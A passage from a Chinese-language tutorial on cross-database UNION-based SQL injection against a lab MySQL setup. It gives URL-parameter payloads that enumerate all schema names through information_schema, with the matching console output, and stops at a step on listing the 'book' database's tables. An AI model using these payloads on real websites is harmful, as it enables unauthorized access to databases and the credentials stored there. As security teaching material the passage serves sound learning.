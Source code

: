 一般在网站安装的时候会指定数据库的用户名和密码这里指定的是root用户密码为空指定的数据库是security

 跨库查询的前提条件是必须**高权限**的用户才能执行跨库查询。

```
?id=-1%20union%20select%201,schema_name,3%20from%20information_schema.schemata
```

![img](https://s2.loli.net/2022/11/25/4KhSxm3j7VgMTtz.png)

数据库中执行

```bash
mysql> SELECT * FROM users WHERE id=-1 union select 1,schema_name,3 from information_schema.schemata LIMIT 0,1;
+----+--------------------+----------+
| id | username           | password |
+----+--------------------+----------+
|  1 | information_schema | 3        |
+----+--------------------+----------+
1 row in set (0.00 sec)

mysql>
```

- 1、获取到所有的数据库名称

```
union select 1,group_concat(schema_name),3 from information_schema.schemata
```

备注：GROUP_CONCAT函数将分组中的字符串与各种选项进行连接。  

![img](https://s2.loli.net/2022/11/25/yYGAPNhOX9oQ7MK.png)

等同于在数据库中执行以下命令

```bash
mysql> use security;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> SELECT * FROM users WHERE id=-1 union select 1,group_concat(schema_name),3 from information_schema.schemata  LIMIT 0,1;
+----+----------------------------------------------------------------------+----------+
| id | username                                                             | password |
+----+----------------------------------------------------------------------+----------+
|  1 | information_schema,book,challenges,mysql,performance_schema,security | 3        |
+----+----------------------------------------------------------------------+----------+
1 row in set (0.00 sec)

mysql>
```

- 2、指定获取book库中的表名信息
